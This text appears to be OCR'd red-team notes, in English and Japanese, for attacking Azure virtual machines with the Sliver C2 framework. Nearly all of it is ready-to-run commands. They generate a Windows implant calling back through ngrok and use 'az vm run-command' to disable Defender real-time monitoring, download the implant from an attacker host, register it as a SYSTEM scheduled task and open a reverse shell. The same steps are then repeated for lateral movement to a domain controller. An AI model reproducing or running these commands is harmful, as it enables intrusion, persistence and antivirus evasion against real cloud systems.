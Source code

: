         ```
    * python server
    ```
    python3 -m http.server 9001
    ```
    * sliver
        * setup sliver
        ```
        sliver-server
        ```
        ```
        http -l 9000
        ```
        ```
        generate --os windows --skip-symbols -e --http https://NGROK9000_HOSTNAME_HERE
        ```
    * remotely runnning commands
        * setting payload
        ```
        export TARGET=vm_name
        export NAME=sliver_generated_payloadname
        export NGROK9001=https://ngrok90001_host_name
        ```
        * execute payload
        ```
        az vm run-command invoke --command-id RunPowerShellScript --name $TARGET -g HIBOXY --script 'Set-MpPreference -DisableRealtimeMonitoring $true; wget '"$NGROK9001"'/'"$NAME"'.exe -UserAgent "CustomUA" -OutFile C:\Windows\Temp\'"$NAME"'.exe; SCHTASKS /Create /TN '"$NAME"' /TR "C:\Windows\Temp\'"$NAME"'.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f; SCHTASKS /Run /TN '"$NAME"
        ```
        * when get the reverse shell in the sliver-server, it can execute a shell command
        ```
        shell
        ```

### Lateral Movement
* リバースシェル成功後widows
    * login 
    ```
    az login -i
    ```
    * gathering azure vm
    ```
    az vm list -o table
    ```
* linux
    * extract a payload to execute run-command in azure vm
    ```
    export TARGET=hibox-dc1
    echo az vm run-command invoke --command-id RunPowerShellScript --name $TARGET -g HIBOXY --script 'Set-MpPreference -DisableRealtimeMonitoring $true; wget '"$NGROK9001"'/'"$NAME"'.exe -UserAgent "CustomUA" -OutFile C:\Windows\Temp\'"$NAME"'.exe; SCHTASKS /Create /TN '"$NAME"' /TR "C:\Windows\Temp\'"$NAME"'.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f; SCHTASKS /Run /TN '"$NAME"
    ```
    出力結果を編集  
    1.  次の箇所にシングルクオートをつける。  
        --script 'Set-MpPreference   
    2.  コマンド末尾にシングルクオート  
    * リバースシェル成功後sliver-server
    ```
    shell